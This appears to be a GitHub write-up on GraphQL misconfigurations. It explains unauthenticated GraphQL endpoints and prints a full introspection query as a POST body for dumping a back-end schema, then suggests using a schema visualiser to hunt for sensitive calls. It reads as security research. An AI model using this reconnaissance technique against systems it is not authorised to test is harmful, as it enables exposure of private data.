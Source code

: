 # -GraphQL-Misconfigurations

Description :

As new technologies emerge so will new vulnerabilities. By default graphQL does not implement authentication, this is put on the developer to implement. This means by default graphQL allows anyone to query it, any sensitive information will be available to attackers unauthenticated.

Once you find an open graphQL instance you need to know what queries it supports. This can be done by using the introspection system,

Misconfigurations in GraphQL:

Thing to understand here is that GraphQL like any other REST API is vulnerable to many attacks the same attacks the REST API might be prone to. I’ll list some of them below but the most interesting thing and the reason of making this entire post is the infamous Introspection query bug.

Introspection query: Simply put is a way to query the server for its GraphQL back-end schema and to get a complete documentation and list of what API calls are available in the back-end. This is originally meant to be used internally

1. after doing introspection query

![image](https://user-images.githubusercontent.com/84071887/234309226-9dd0c756-ae97-4fa4-9b16-85ab3ef36010.png)

 GraphQL Introspection Query Leaking back-end schema
Just replace the POST contents with the following query:


{"query":"\n    query IntrospectionQuery {\r\n      __schema {\r\n        queryType { name }\r\n        mutationType { name }\r\n        subscriptionType { name }\r\n        types {\r\n          ...FullType\r\n        }\r\n        directives {\r\n          name\r\n          description\r\n          locations\r\n          args {\r\n            ...InputValue\r\n          }\r\n        }\r\n      }\r\n    }\r\n\r\n    fragment FullType on __Type {\r\n      kind\r\n      name\r\n      description\r\n      fields(includeDeprecated: true) {\r\n        name\r\n        description\r\n        args {\r\n          ...InputValue\r\n        }\r\n        type {\r\n          ...TypeRef\r\n        }\r\n        isDeprecated\r\n        deprecationReason\r\n      }\r\n      inputFields {\r\n        ...InputValue\r\n      }\r\n      interfaces {\r\n        ...TypeRef\r\n      }\r\n      enumValues(includeDeprecated: true) {\r\n        name\r\n        description\r\n        isDeprecated\r\n        deprecationReason\r\n      }\r\n      possibleTypes {\r\n        ...TypeRef\r\n      }\r\n    }\r\n\r\n    fragment InputValue on __InputValue {\r\n      name\r\n      description\r\n      type { ...TypeRef }\r\n      defaultValue\r\n    }\r\n\r\n    fragment TypeRef on __Type {\r\n      kind\r\n      name\r\n      ofType {\r\n        kind\r\n        name\r\n        ofType {\r\n          kind\r\n          name\r\n          ofType {\r\n            kind\r\n            name\r\n            ofType {\r\n              kind\r\n              name\r\n              ofType {\r\n                kind\r\n                name\r\n                ofType {\r\n                  kind\r\n                  name\r\n                  ofType {\r\n                    kind\r\n                    name\r\n                  }\r\n                }\r\n              }\r\n            }\r\n          }\r\n        }\r\n      }\r\n    }\r\n  ","variables":null}



Now when you do this The response might be quite big and hard to comprehend. The best way to understand the schema is to visualize it. That can be done by copying the entire response body and using this website https://apis.guru/graphql-voyager/ click on the Change schema button and go in the introspection tab then paste the introspection query there

![image](https://user-images.githubusercontent.com/84071887/234309528-33cb4bcb-bd7a-43a2-a962-4d72d9beedba.png)


Now since we have the entire API calls list we can go over it and easily try to figure out if there are any sensitive API calls that can be abused. This is the most prevalent type of bug found in GraphQL back-ends which can lead to quite critical scenarios.


Video POC attached here :

https://drive.google.com/file/d/1UtspZvhdlDeInEPdQj4p4QOyVX1jLlkm/view

watch this video for clear understanding.


Impact:
 sensitive information disclosure using graphql backend API call leakage.

 
 

